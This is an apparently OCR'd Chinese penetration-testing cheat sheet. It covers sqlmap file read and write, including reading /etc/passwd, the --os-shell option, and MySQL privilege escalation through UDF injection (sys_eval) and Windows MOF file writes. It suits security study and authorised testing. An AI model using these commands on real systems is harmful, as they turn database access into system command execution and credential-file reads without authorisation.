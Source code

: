 上传/下载

- 上传：`sqlmap -u <url> --file-write <local_file> --file-dest <target_machine_directory>`
- 下载：`sqlmap -u <url> --file-read /etc/passwd`

RCE（--os-shell）

- 使用条件：
  1. 有写入权限
  2. 路径名是默认的
  3. 禁用 magic_quotes_gpc

## MySQL 提权

### UDF

UDF（user define function）用户自定义功能。提权的本质是通过以运行 MySQL 服务的用户身份去执行系统命令，所以只适用于 5.7 以下版本。

前提准备

- 查询版本：`select version();`
  - MySQL < 5.0，路径随意
  - 5.0 <= MySQL < 5.1，放置系统目录（system32）
  - MySQL > 5.1，MySQL 安装目录的 `lib\plugin` 文件夹下（默认不存在，需自建）
- 查询读写权限：`select global variables like secure_file_priv;`
- 查询插件目录：`show variables like 'plugin_dir'; | select @@plugin_dir;`
- 查询 OS 架构：`show variables like '%compile%'; | select @@version_compile_os; | select @@version_compile_machine;`

提权步骤

1. 建表：先创建一张临时表存放 DLL/OS 文件的十六进制内容
   - `create table temp_udf(udf blob);`
2. 插入：`insert into temp_udf values(convert(DLL/OS的十六进制内容,char));`
3. 导出：使用 dumpfile，因为它会保持原数据格式
   * `select udf from temp_udf into dumpfile "DLL/OS 存放路径";`
4. 创建函数：`create function sys_eval returns string soname "udf.[so|dll]";`
5. 执行函数：`select sys_eval('whoami');`

### MOF(Windows)

MOF 是 Windows 的托管对象格式文件，位于`C:/Windows/system32/wbem/mof`。server 2003 及以下系统每隔几秒会执行一次 mof 目录下的文件，执行成功会移动到 good 文件夹，失败则移动到 bad 文件夹。

前提准备

1. MySQL 以高权限运行
2. MySQL 具有写入 mof 目录权限
3. 只适用于 server 2003 及以下的系统

提权步骤

- 写入文件：`select mof文件十六进制内容 into dumpfile "C:/Windows/system32/wbem/mof/x.mof";`

## SQL server 提权
